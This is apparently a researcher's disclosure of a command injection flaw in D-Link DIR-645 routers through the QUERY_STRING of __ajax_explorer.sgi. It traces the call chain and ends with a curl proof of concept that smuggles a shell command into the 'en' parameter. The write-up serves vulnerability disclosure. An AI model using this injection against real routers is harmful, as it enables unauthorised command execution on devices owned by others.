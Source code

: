 Vendor of the products:D-Link

Reported by: 　　　WangJincheng(wjcwinmt@outlook.com) && FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

Affected products:D-Link DIR-645 <= v1.03

Vendor Homepage:  https://www.dlink.com/en/consumer

Vendor Advisory:  https://tsd.dlink.com.tw/ddgo


# summarize

`D-Link DIR-645` was discovered to contain a command injection vulnerability when operate the file `__ajax_explorer.sgi`. This vulnerability allows attackers to execute arbitrary commands via the `QUERY_STRING` parameter.

# Vulnerability description

We can see that the os will get `QUERY_STRING` in `scandir_main`, and pass it to `sub_410AD4`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/1.png)

In `sub_410AD4`, it calls `sub_410434`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/2.png)

In `sub_410434`, it contains a command injection.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/3.png)

before the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/4.png)

after the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/5.png)

# poc

	curl "http://192.168.0.1/portal/__ajax_explorer.sgi?action=umnt&path=path&where=here&en=;echo%20X1cT34mpwner%20>FXC;"
